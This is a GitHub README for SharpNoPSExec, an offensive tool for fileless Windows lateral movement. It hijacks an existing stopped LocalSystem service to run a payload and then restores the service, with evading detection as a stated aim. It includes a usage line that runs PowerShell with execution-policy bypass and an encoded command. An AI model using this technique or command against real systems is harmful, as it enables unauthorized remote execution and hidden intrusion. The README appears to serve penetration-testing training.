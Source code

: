 # SharpNoPSExec
#### File less command execution for lateral movement.

SharpNoPSExec will query all services and randomly pick one with a start type disable or manual, the current status stopped and with LocalSystem privileges to reuse them.

Once it select the service it will save its current state, replace the binary path with the payload of your choise and execute it. 

After waiting 5 seconds it will restore the service configuration and you mostlikely will have your shell :) 

This tool is inspired on PSExec explanation from #OSEP for lateralmovement, while reading the exercise I realized I can perform the lateralmovement without touching disk and without creating a new service to avoid detection.

```
███████╗██╗  ██╗ █████╗ ██████╗ ██████╗ ███╗   ██╗ ██████╗ ██████╗ ███████╗███████╗██╗  ██╗███████╗ ██████╗
██╔════╝██║  ██║██╔══██╗██╔══██╗██╔══██╗████╗  ██║██╔═══██╗██╔══██╗██╔════╝██╔════╝╚██╗██╔╝██╔════╝██╔════╝
███████╗███████║███████║██████╔╝██████╔╝██╔██╗ ██║██║   ██║██████╔╝███████╗█████╗   ╚███╔╝ █████╗  ██║     
╚════██║██╔══██║██╔══██║██╔══██╗██╔═══╝ ██║╚██╗██║██║   ██║██╔═══╝ ╚════██║██╔══╝   ██╔██╗ ██╔══╝  ██║     
███████║██║  ██║██║  ██║██║  ██║██║     ██║ ╚████║╚██████╔╝██║     ███████║███████╗██╔╝ ██╗███████╗╚██████╗
╚══════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝  ╚═══╝ ╚═════╝ ╚═╝     ╚══════╝╚══════╝╚═╝  ╚═╝╚══════╝ ╚═════╝

Version: 0.0.3
Author: Julio Ureña (PlainText)
Twitter: @juliourena

SharpNoPSExec.exe --target=192.168.56.128 --payload=""c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ZQBjAGgAbwAgAEcAbwBkACAAQgBsAGUAcwBzACAAWQBvAHUAIQA=""

Required Arguments:
--target=       - IP or machine name to attack.
--payload=      - Payload to execute in the target machine.

Optional Arguments:
--username=     - Username to authenticate to the remote computer.
--password=     - Username's password.
--domain=       - Domain Name, if no set a dot (.) will be used instead.

--service=      - Service to modify to execute the payload, after the payload is completed the service will be restored.
Note: If not service is specified the program will look for a random service to execute.
Note: If the selected service has a non-system account this will be ignored.

--help          - Print help information.
```
#### Version 0.0.3
- Added - Sanitization to the input.
- Fixed - Payload it's working with Covenant in a non-interactive.
- Changed - Exit function is a return, removed Enviroment.Exit(0).
- Changed - Logic improvements.

#### Version 0.0.2
- Fixed - Parsing payload, powershell commands wont execute if they have =.
- Changed - Error handling.

#### Version 0.0.1
- First release.
